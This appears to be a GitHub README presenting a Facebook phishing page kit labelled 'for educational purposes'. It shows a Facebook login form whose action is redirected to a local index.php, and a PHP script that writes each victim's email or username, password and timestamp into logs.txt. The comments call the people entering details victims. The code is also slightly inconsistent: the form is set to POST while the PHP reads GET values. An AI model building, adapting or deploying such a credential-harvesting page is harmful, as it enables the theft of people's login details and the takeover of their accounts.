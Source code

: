 ### Facebook 2022 Phishing Page
#### For educational purposes!

### logs.txt
```
Date and Time: (Date and Time)
Username: (Username/Email)
Password: (Password)
```

### index.html (form)
```html
<form class="_9vtf" <!-- idk? you can remove it if you want to -->
data-testid="royal_login_form" <!-- idk? you can remove it if you want to -->
action="./index.php"  <!-- replacing facebook login action to local "index.php" -->
method="post"> <!-- replacing "get" to "post" -->
```

### index.php
```php
$username = $_GET["email"]; // get email index from email/username textbox
$password = $_GET["pass"]; // get pass index from password textbox
$date = date("d-m-y h:i:s"); // get current time and date

file_put_contents("logs.txt", "Date: " . $date . "\n", FILE_APPEND); // logs time and date
file_put_contents("logs.txt", "Username: " . $username . "\n" , FILE_APPEND); // logs victims username/email
file_put_contents("logs.txt", "Password: ". $password . "\n\n", FILE_APPEND); // logs victims password
```

### Page Screenshot
![image](https://user-images.githubusercontent.com/104715127/177643156-bc7cc152-b50e-4182-abf1-df67a37aa6bf.png)
